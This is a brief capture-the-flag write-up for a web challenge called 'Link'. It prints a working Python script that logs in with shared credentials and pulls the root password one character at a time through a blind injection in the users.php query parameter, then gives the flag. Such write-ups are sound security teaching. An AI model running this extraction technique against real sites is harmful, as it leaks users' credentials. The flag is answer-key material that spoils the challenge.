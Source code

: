 <a name="link"></a>
# Link (500) - web

Description:
```
To make the job of CTF players easier we have launched a platform where they can share useful links.

URL: http://vps-d6144d5d.vps.ovh.net/ User: ctf Pass: ctf
```

Bruteforce to find `/users.php`, how `/links.php` has a `?query=contains(column, string)` parameter, we try it on the users.php and it works. We then proceed to leak the password of root:

```python
import requests
import string
flag = 'RST{'

s = requests.Session()

r = s.post('http://vps-d6144d5d.vps.ovh.net/login.php', {'username':'ctf', 'password':'ctf', 'login':'Login'})

while '}' not in flag:
    for c in '0123456789' + string.ascii_lowercase + '}_':
        url = f"http://vps-d6144d5d.vps.ovh.net/users.php?query=contains(password,'{flag+c}')"
        r = s.get(url)
        if 'root' in r.text:
            flag += c
            print(flag)
            break
    print('done')
```

**RST{abusing_useful_behavior}**